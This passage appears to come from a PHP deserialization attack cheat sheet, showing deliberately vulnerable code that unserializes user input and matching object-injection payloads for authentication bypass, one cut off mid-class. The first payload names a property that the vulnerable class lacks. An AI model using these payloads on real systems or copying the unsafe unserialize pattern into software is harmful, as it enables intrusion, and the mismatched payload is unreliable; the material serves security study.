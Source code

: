 ### Authentication bypass - Object reference

Vulnerable code:

```php
<?php
class Object
{
  var $guess;
  var $secretCode;
}

$obj = unserialize($_GET['input']);

if($obj) {
    $obj->secretCode = rand(500000,999999);
    if($obj->guess === $obj->secretCode) {
        echo "Win";
    }
}
?>
```

Payload:

```php
O:6:"Object":2:{s:10:"secretCode";N;s:4:"code";R:2;}
```

### Authentication bypass - Object reference

Vulnerable code:
```php
class Example3
{
   protected $obj;

   function __construct()
   {
      // some PHP code...
   }

   function __toString()
   {
      if (isset($this->obj)) return $this->obj->getValue();
   }
}

// some PHP code...

$user_data = unserialize($_POST['data']);

// some PHP code..
```
Payload:
```php
class SQL_Row_Value
{
   private $_table = "SQL Injection";
}

class Example3
{
   protected $obj;

   function __construct()
```